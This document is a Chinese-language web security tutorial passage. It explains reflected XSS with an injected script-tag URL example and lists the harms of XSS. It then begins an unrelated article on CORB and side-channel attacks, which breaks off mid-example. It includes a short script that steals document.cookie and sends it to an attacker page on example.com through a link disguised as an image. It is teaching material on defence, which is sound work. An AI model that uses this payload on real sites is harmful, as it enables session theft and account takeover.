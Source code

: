     https://insecure-website.com/status?message=All+is+well.

    <p>Status: All is well.</p>

那么，这个页面就有可以接收 XSS 攻击：

    https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script>

    <p>Status: <script>/* Bad stuff here... */</script></p>

因为，脚本标签意味无限的访问权。在 HTML 通过脚本标签引入的脚本代码具有访问这个页面资源的权限，这就是 XSS 攻击的根本。

XSS 是继 SQL 注入的又一大 Web 风险，很容易被人利用，两者都是运用注入原理进行攻击，危害又特别大，所以必需小心防范。

XSS 攻击的危害包括：

1、盗取各类用户帐号，如机器登录帐号、用户网银帐号、各类管理员帐号
2、控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力
3、盗窃企业重要的具有商业价值的资料
4、非法转账
5、强制发送电子邮件
6、网站挂马
7、控制受害者机器向其它网站发起攻击

比如，攻击者通过 XSS 给页面注入一个伪装的图片，点击时就会发送 Cookie 信息给攻击者设置好的服务中：

    <script>
    var Str=document.cookie;
    var a = document.createElement('a');
    a.href='http://www.example.com/attack.php?'+Str;
    a.innerHTML="<img src='./beauty.jpg'>";
    document.body.appendChild(a);
    </script>






# CORB（Cross-Origin Read Blocking）

30 分钟理解 CORB 是什么
写在前面
前些日子在调试 bug 的时候，偶然发现这么一个警告：

Cross-Origin Read Blocking (CORB) blocked cross-origin response https://www.chromium.org/ with MIME type text/html. See https://www.chromestatus.com/... for more details.

我当前的 chrome 版本是 v68，如果是 v66 或更低版本可能提示的警告信息略有不同。印象中只对 CORS 比较熟悉，CORB 是个什么鬼？好奇心迫使我想要了解一下它到底是什么，于是暂时把手头工作放下查了一些资料并花时间汇总了一下，就有了这篇文章。

再介绍 CORB 是什么以及有什么用之前，需要先了解一些背景知识以做铺垫，下面进入正文。

## 旁路攻击（side-channel attacks）
首先需要了解的是旁路攻击这个术语，关于术语本身的解释，可以去维基百科搜索。简单讲的话，就是从软件系统的物理实现层获取信息进行攻击的手段，软件系统在正常运行时，产生了一些边缘特征，这些特征可以体现一些隐私信息。

这么说可能略显抽象，就拿后文视频链接中列举的例子说明一下，假设小 A 的账户密码是 gyease，小 B 想破解小 A 的密码，他可以这么做：
